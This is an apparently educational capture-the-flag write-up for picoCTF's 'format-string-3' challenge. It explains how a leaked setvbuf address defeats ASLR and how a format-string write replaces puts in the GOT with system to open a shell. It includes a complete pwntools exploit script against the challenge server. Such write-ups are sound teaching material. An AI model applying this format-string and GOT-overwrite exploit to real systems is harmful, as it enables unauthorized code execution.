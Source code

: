 hmm... interesting. It says it gives the address of `setvbuf` in libc, and it does the `puts`function with `normal_string`, with `normal_string` being `/bin/sh`. 

After a bit of research, it appears we need to overwrite the address of `puts()` with `system()`, so we can pop a shell to access the server. However, there's a huge problem. How do we even get `system()`???

Getting `puts` is easy. It's in the Global Offset Table (GOT), so we don't really need to worry about that. 

We can try to find system() in libc, however there's a huge problem. The binary has ASLR. 

ASLR stands for Address Space Layout Randomisation and can, in most cases, be thought of as libc's equivalent of PIE - every time you run a binary, libc (and other libraries) get loaded into a different memory address.

This is a problem. How can we get address of `system()` if we can't even get a constant address for `system()` in libc???

This is where the leak of `setvbuf` in libc comes in. 

We can caculate the base address of libc by subtracting the leaked address of `setvbuf` by the offset of `setvbuf` in libc. 

Ok, so with that we can add the offset of `system` in libc to the base address. So we are able to get `system`, nice!

Heres the steps of our exploit:

1. subtract leaked setvbuf by setvbuf offset in libc to get libc base address
2. add offset of system in libc to the base address to get the address of system
3. get the address of puts in the GOT and replace it with the address of system using format string
4. use pwntools to automate this process
5. log in and get flag!

```python
from pwn import *
from pwnlib.fmtstr import FmtStr, fmtstr_payload, fmtstr_split

elf = context.binary = ELF('./format-string-3')
libc = ELF('./libc.so.6')
#get base address from setvbuf using leaked setvbuf

if args.REMOTE:

	p = remote('rhea.picoctf.net', 61909)
else:
	p = process(elf.path)

def send_payload(payload):
	p.sendline(payload)
	p.interactive()

print(p.recvline())

system_leak = int(((p.recvline()).split()[11]), 16)

print((system_leak))

#get the libc.address through system leak
libc_address = (system_leak-libc.symbols['setvbuf'])

system = (libc_address + libc.symbols['system'])

payload = fmtstr_payload(38, {elf.got['puts']: system})

p.sendline(payload)
p.interactive()

```